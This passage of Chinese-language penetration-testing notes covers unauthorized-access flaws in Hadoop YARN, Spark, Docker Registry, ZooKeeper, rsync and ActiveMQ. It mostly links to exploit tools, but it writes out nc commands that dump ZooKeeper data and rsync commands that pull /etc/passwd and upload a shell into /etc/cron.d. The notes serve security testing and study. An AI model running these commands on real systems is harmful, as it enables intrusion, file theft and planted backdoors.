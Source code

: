 ## 0x10 hadoop YRAN RPC未授权访问漏洞

漏洞利用工具：[YarnRpcRCE](https://github.com/cckuailong/YarnRpcRCE)


## 0x11 Apache Spark未授权访问漏洞

[Spark未授权访问漏洞](https://icybersec.gitbook.io/cybersecuritynote/an-quan-lou-dong/wei-shou-quan-lou-dong/spark-wei-shou-quan-fang-wen-lou-dong)


## 0x12 docker registry API未授权访问
漏洞利用文章:
* [docker registry v2 API的使用](https://blog.csdn.net/kan2016/article/details/86105354)

* [Docker Registry API未授权访问漏洞](https://www.cnblogs.com/taoqinggang/articles/17863783.html)


## 0x13 zookeeper未授权访问漏洞
漏洞利用:
```
echo conf | nc xx.xx.xx.xx 2181 输出相关服务配置的详细信息，端口、数据路径、日志路径、session 超时时间，最大连接数等。
echo envi | nc xx.xx.xx.xx 2181 输出服务器的详细信息。
echo dump | nc xx.xx.xx.xx 2181 | more 输出未处理的会话和临时节点，
leader 节点有效。
echo cons | nc xx.xx.xx.xx 2181 | more 列出所有连接到当前服务器的客户
端/会话的详细信息。
```

## 0x14 rsync未授权访问漏洞
漏洞检测和利用
```
nmap检测 
nmap -p 873 --script rsync-list-modules 192.168.193.128

连接后进行执行的常见命令
查看模块列表
rsync rsync://your-ip:873/

列出模块下文件
rsync rsync://your-ip:873/src/

下载文件
rsync -av rsync://your-ip:873/src/etc/passwd

上传文件
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

## 0x15 apache active未授权访问漏洞
漏洞利用: [activemp](
https://github.com/vulhub/vulhub/tree/master/activemq)
